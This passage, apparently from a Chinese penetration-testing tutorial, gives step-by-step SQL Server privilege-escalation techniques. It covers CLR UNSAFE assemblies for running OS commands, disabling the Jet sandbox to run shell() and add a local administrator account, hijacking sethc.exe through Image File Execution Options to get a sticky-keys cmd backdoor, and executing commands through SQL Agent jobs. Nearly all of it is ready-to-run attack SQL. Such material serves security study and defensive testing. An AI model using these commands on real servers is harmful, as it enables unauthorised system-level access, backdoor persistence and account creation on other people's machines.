
打开可看到提权SQL语句，分别运行每一条SQL语句
进入msdb数据库
use msdb;
0x03 将存储.Net程序集的数据库配置为可信赖的。
alter database master set trustworthy on;

0x04 启用MSSQL CLR功能
exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'clr enabled',1;reconfigure;
命令解释：
exec sp_configure 'show advanced options',1; #显示高级选项：
reconfigure; #重新配置
exec sp_configure 'clr enabled',1; # 开启clr enabled 选项
reconfigure; #重新配置
--关闭所有服务器配置选项
EXEC sp_configure N'show advanced options', N'0'
RECONFIGURE WITH OVERRIDE
--如果存在权限问题，执行下面一段脚本
alter database [master] set TRUSTWORTHY on
EXEC sp_changedbowner 'sa'

0x05 利用SQL语句导入程序集
CREATE ASSEMBLY [Database1]
AUTHORIZATION [dbo]
FROM 0x0000
WITH PERMISSION_SET = UNSAFE;
GO
0x06 创建存储过程
CREATE PROCEDURE [dbo].[ExecCommand] @cmd NVARCHAR (MAX) AS EXTERNAL NAME [sysinfo].[StoredProcedures].[ExecCommand]
0x07 执行命令
执行系统命令，查看当前的权限
exec dbo.ExecCommand 'whoami';

沙盒提权
什么是沙盒？
沙盒（英语：sandbox，又译为沙箱），计算机专业术语，在计算机安全领域中是一种安全机制，为运行中的程序提供的隔离环境。通常是作为一些来源不可信、具破坏力或无法判定程序意图的程序提供实验之用。
利用前提：
1.需要
Microsoft.Jet.OLEDB.4.0一般在32位系统才可以，64位机需要12.0，较复杂
2.dnary.mdb和ias.mdb两个文件 在win2003上默认存在，也可自行准备
提权操作
简单总结
--提权语句
exec sp_configure 'show advanced options',1;reconfigure;
-- 不开启的话在执行xp_regwrite会提示让我们开启，
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
--关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
--查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
--执行系统命令select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators margin /add")')
沙盒模式SandBoxMode参数含义（默认是2）
`0`：在任何所有者中禁止启用安全模式
`1` ：为仅在允许范围内
`2` ：必须在access模式下
`3`：完全开启
openrowset是可以通过OLE DB访问SQL Server数据库，OLE DB是应用程序链接到SQL Server的的驱动程序。
--恢复配置
--exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
--exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
--exec sp_configure 'show advanced options',0;reconfigure;
引用前辈们的话
1，Access可以调用VBS的函数，以System权限执行任意命令 2，Access执行这个命令是有条件的，需要一个开关被打开 3，这个开关在注册表里 4，SA是有权限写注册表的 5，用SA写注册表的权限打开那个开关 6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令
利用镜像劫持提权
0x01 简介
通过使用xp_regwrite存储过程对注册表进行修改，替换成任意值，造成镜像劫持。
前提条件：
1.未禁止注册表编辑（即写入功能）
2.xp_regwrite启用
0x02 映像劫持提权
1.查看xp_regwrite是否启用
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite'

返回1表示xp_regwrite组件启用 返回0则表示未启用
2.xp_regwrite开启与关闭
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_regwrite',1
RECONFIGURE
3.利用regwrite函数修改组注册表进行劫持
首先我们利用regwrite函数修改组册表进行劫持，这里如果regwrite执行失败参考上面的开启方法。
EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'

4.查看是否劫持成功
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'

5.验证是否成功
紧接着我们远程连接桌面，然后连续按5次shift就可以调用cmd窗口
拓展：
上面对只是对粘滞键进行修改，类似的，可以在注册表中进行其他操作
6.删除指定注册表键值
删除粘滞键的键值
xp_regdeletekey 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe'
利用Agent Job执行命令
0x01 简介
SQL Server代理是一项Microsoft Windows服务，它执行计划的管理任务，这些任务在SQL Server 2019（15.x）中称为作业。
原理：创建一个任务并执行命令，命令执行后的结果，将结果写入文件中。
Job执行命令
1.启动sqlagent服务
首先需要启动sqlagent服务：
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT'
2.进入数据库
USE msdb;

3.定义创建作业
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1';

4.定义作业步骤
定义作业步骤(作业中查看当前用户并将用户写入c:\1.txt文件中)
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt', @retry_attempts = 1, @retry_interval = 5 ;EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1';
5.启动作业
启动作业（启动作业需要一点时间，作业完成后会在c盘目录下新建），如果命令没有执行成功多运行几次即可。
EXEC dbo.sp_start_job N'test_powershell_job1';
6.验证是否成功

参考地址：
https://www.freebuf.com/vuls/276814.html
https://y4er.com/post/mssql-getshell/
https://f5.pm/go-26046.html
http://alexsel.com/index.php/archives/80/
https://xz.aliyun.com/t/9475